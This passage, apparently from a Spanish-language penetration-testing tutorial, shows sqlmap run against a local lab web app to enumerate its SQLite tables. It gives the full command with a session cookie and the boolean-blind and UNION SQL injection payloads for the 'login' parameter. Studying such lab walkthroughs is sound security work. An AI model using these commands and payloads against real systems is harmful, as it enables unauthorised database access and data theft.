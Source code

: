 ```zsh  
[03:19:08] [WARNING] on SQLite it is not possible to enumerate databases (use only '--tables')
[03:19:08] [INFO] fetched data logged to text files under '/root/.sqlmap/output/172.17.0.2'

```  

Gracias al resultado anterior logramos identificar que el gestor de base de datos usado para la aplicacion afectada es SQLite.  
Vamos a indicarle el parametro **--tables**, para extraer el nombre de las tablas de la base de datos; Seguido del parametro **--dbms=sqlite** el cual especifica el DBMS.  

```zsh  
┌─[root@BinaryChaos] - [/home/gerh/Escritorio/Prometheus/Tests] - [Thu Jun 27, 03:12]
└─[$]> # sqlmap -u "http://172.17.0.2:9090/app/usersearch" --cookie="connect.sid=s%3Ahbsj8Q9LncwBa5WvzuJT905FGSmgF-Sm.etNjaXJx4%2BXt5pn0Xxe7voCeWf3ppz7eKO0TILE3c9M" --data="login=Gerh" --tables --dbms=sqlite
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.6#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 03:17:59 /2019-06-27/

[03:17:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: login (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: login=Gerh' AND 4169=4169 AND 'XNeY'='XNeY

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: login=-6864' UNION ALL SELECT CHAR(113)||CHAR(113)||CHAR(120)||CHAR(120)||CHAR(113)||CHAR(111)||CHAR(87)||CHAR(110)||CHAR(115)||CHAR(117)||CHAR(115)||CHAR(68)||CHAR(81)||CHAR(79)||CHAR(90)||CHAR(85)||CHAR(118)||CHAR(122)||CHAR(76)||CHAR(101)||CHAR(86)||CHAR(82)||CHAR(103)||CHAR(69)||CHAR(70)||CHAR(101)||CHAR(79)||CHAR(81)||CHAR(115)||CHAR(74)||CHAR(82)||CHAR(72)||CHAR(84)||CHAR(72)||CHAR(88)||CHAR(65)||CHAR(79)||CHAR(76)||CHAR(73)||CHAR(86)||CHAR(90)||CHAR(100)||CHAR(65)||CHAR(75)||CHAR(103)||CHAR(113)||CHAR(113)||CHAR(118)||CHAR(98)||CHAR(113),NULL-- PnZX
---
[03:18:00] [INFO] testing SQLite
[03:18:00] [INFO] confirming SQLite
[03:18:00] [INFO] actively fingerprinting SQLite
[03:18:00] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[03:18:00] [INFO] fetching tables for database: 'SQLite_masterdb'
[03:18:00] [WARNING] the SQL query provided does not return any output
[03:18:00] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[03:18:00] [INFO] fetching number of tables for database 'SQLite_masterdb'
[03:18:00] [INFO] resumed: 3
[03:18:00] [INFO] resumed: Products
[03:18:00] [INFO] resumed: sqlite_sequence
[03:18:00] [INFO] resumed: Users
Database: SQLite_masterdb
[3 tables]
+-----------------+
| Products        |
| Users           |
| sqlite_sequence |
+-----------------+

[03:18:00] [INFO] fetched data logged to text files under '/root/.sqlmap/output/172.17.0.2'
```